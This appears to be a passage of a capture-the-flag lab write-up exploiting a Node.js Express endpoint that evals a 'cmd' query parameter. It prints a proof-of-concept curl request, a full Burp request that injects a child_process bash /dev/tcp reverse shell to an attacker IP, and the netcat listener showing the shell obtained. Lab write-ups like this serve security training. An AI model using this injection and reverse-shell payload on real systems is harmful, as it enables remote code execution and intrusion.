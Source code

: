 This error is generated by `nodejs`. below is the cleaned code:

~~~
ReferenceError: id is not defined
    at eval (eval at router.post (/var/web/routes/api.js:25:60), <anonymous>:1:1)
    at router.post (/var/web/routes/api.js:25:60)
    at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)
    at next (/var/web/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)
    at /var/web/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)
    at next (/var/web/node_modules/express/lib/router/index.js:275:10)
    at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)
~~~

## Proof of concept

Let's exploit (I found this resource useful: https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44):

~~~
kali@kali:/data/GLITCH/files$ curl -X POST "http://10.10.16.166/api/items?cmd=process.cwd()"
vulnerability_exploited /var/web
~~~

Our injection was successful and we are provided with the current path.

## Exploit and reverse shell

Use BurpSuite to send the following request:

~~~
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.8.50.72/4444+0>%261"') HTTP/1.1
Host: 10.10.16.166
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=value
Upgrade-Insecure-Requests: 1
If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"

~~~

We now have a reverse shell:

~~~
kali@kali:/data/GLITCH$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.16.166] 49964
bash: cannot set terminal process group (1353): Inappropriate ioctl for device
bash: no job control in this shell
user@ubuntu:/var/web$ id
id
uid=1000(user) gid=1000(user) groups=1000(user),30(dip),46(plugdev)
~~~
